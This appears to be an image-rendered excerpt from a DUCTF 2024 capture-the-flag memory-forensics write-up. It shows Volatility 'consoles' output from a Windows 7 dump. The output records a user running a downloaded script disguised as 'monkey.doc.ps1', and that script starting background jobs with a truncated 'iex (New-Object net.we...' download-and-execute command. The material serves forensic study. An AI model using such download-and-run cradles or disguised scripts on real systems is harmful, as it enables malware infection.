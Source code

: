 ```
└─$ python2 vol.py -f ~/Desktop/shared/DUCTF2024/EMU-OUTPOST/EMU-OUTPOST.raw --profile=Win7SP1x86_23418 consoles
Volatility Foundation Volatility Framework 2.6.1

--- SNIP ---

**************************************************
ConsoleProcess: conhost.exe Pid: 2560
Console: 0x7881c0 CommandHistorySize: 50
HistoryBufferCount: 1 HistoryBufferMax: 4
OriginalTitle: Windows PowerShell
Title: Administrator: Windows PowerShell
AttachedProcess: powershell.exe Pid: 1136 Handle: 0x58
----
CommandHistory: 0x306550 Application: powershell.exe Flags: Allocated, Reset
CommandCount: 3 LastAdded: 2 LastDisplayed: 2
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x58
Cmd #0 at 0x2e2c38: cd C:\Users\emu\Downloads
Cmd #1 at 0x2e2358: .\monkey.doc.ps1
Cmd #2 at 0x304588: r
----
Screen 0x2e68f0 X:120 Y:3000
Dump:
Windows PowerShell                                                                                                      
Copyright (C) 2009 Microsoft Corporation. All rights reserved.                                                          
                                                                                                                        
PS C:\Windows\system32> cd C:\Users\emu\Downloads                                                                       
PS C:\Users\emu\Downloads> .\monkey.doc.ps1                                                                             
                                                                                                                        
Security Warning                                                                                                        
Run only scripts that you trust. While scripts from the Internet can be useful, this script can potentially harm your   
computer. Do you want to run C:\Users\emu\Downloads\monkey.doc.ps1?                                                     
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): r                                                 
                                                                                                                        
Id              Name            State      HasMoreData     Location             Command                                 
--              ----            -----      -----------     --------             -------                                 
1               Job1            Running    True            localhost            iex (New-Object net.we...               
3               Job3            Running    True            localhost            iex (New-Object net.we...               
                                                                                                                        
                                                                                                                        
PS C:\Users\emu\Downloads>
                                                                                          
--- SNIP ---
```
